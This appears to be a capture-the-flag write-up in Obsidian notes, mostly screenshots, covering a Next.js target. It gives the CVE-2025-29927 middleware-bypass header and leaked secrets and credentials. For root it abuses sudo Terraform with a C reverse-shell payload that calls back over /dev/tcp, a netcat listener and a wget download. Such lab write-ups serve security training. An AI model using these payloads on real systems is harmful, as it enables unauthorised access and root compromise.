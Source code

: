 ![[IMG-20250825192312409.png]]
## User Flag

### [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250825192312472.png]]

![[IMG-20250825192312635.png]]
USE:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250825192312724.png]]

![[IMG-20250825192312815.png]]

![[IMG-20250825192312925.png]]

![[IMG-20250825192313002.png]]



![[IMG-20250825192313077.png]]

![[IMG-20250825192313147.png]]

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

### [Doc Next Auth/api/auth/[...nextauth]": "p](https://next-auth.js.org/getting-started/example)

![[Pasted image 20250825230713.png]]

```
  pages/api/auth/[...nextauth].js
```

![[IMG-20250825192313327.png]]

```js
let o = {
        session: { strategy: "jwt" },
        providers: [
          r.n(CredentialsProvider)()({
            name: "Credentials",
            credentials: {
              username: { label: "User", type: "username" },
              password: { label: "Password", type: "password" }
            },
            authorize: async e =>
              e?.username === "jeremy" &&
              e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
                ? { id: "1", name: "Jeremy" }
                : null
          })
        ],
        pages: { signIn: "/signin" },
        secret: process.env.NEXTAUTH_SECRET
      };
```


```
user: jeremy
password: MyNameIsJeremyAndILovePancakes
```

![[IMG-20250825192313380.png]]

## Root Flag

### Analyse

![[IMG-20250825192313517.png]]

![[IMG-20250825192313635.png]]

### Exploit

[Doc Terraform](https://developer.hashicorp.com/terraform/cli/config/environment-variables)

![[IMG-20250825192313713.png]]

Load a config file custom.

![[IMG-20250825192313763.png]]

### Attacker machine

```bash
gcc main.c -o terraform-provider-examples
python3 -m http.server 8000
nc -lvnp 4444
```

main.c:
```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.141/4444 0>&1", NULL);
    return 0;
}

```

### Victim machine

```bash
wget http://10.10.14.141:8000/terraform-provider-examples
chmod +x terraform-provider-examples
sudo /usr/bin/terraform -chdir\=/opt/examples apply
```
Look at [[Linux/Privilege Escalation|Privilege Escalation]] for more details

![[IMG-20250825192313844.png]]

![[IMG-20250825192313920.png]]




